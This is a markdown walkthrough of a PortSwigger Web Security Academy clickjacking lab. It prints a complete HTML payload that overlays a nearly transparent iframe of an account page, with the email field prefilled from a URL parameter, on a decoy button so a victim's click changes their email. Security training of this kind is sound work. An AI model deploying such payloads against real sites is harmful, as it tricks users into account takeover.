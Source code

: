 
### Clickjacking with form input data prefilled from a URL parameter : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Login via the given credentials and head to the my-account page.

![](./screenshots/lab2-1.png)

> We need to replicate this page, this will be the decoy page.
> Above it we will place a transparent layer that when clicked prepopulates the email form and updates email.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0ae50047031807c3811b937600500049.web-security-academy.net/my-account"> </iframe> 
</body>
```

> In order to prefill the email, we need to first know the parameter name. 
> Doing that by inspecting the form element.

![](./screenshots/lab2-2.png)

> It's `email`.
> Seeing if we can place `email` as a query parameter in the URl bar to see if it supports prepopulation.

![](./screenshots/lab2-3.png)

> We added the email `newmi11ns@mins.com` as a query parameter and then requested that page, and in the response, we see the form has one of its inputs filled with the value we entered.
> Therefore, all that is remaining is for the user to click on the update email button for that value to be processed and used to become the new email.

> Thus, our HTML clickjacking payload will look like:
```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0ae50047031807c3811b937600500049.web-security-academy.net/my-account?email=newnew@new.com"> </iframe> 
</body>
```
> Similar to [[Portswigger/Clickjacking/Lab 1|Lab 1]], we first made sure that the 2 elements are exactly on top of another, the click and the update email button by putting the payload in the exploit server and viewing it.
> After we do that, we set the opacity to `0.00001` in order to make the actual target webpage transparent.

![](./screenshots/lab2-4.png)

> Delivering the exploit to victim completes the lab.

---




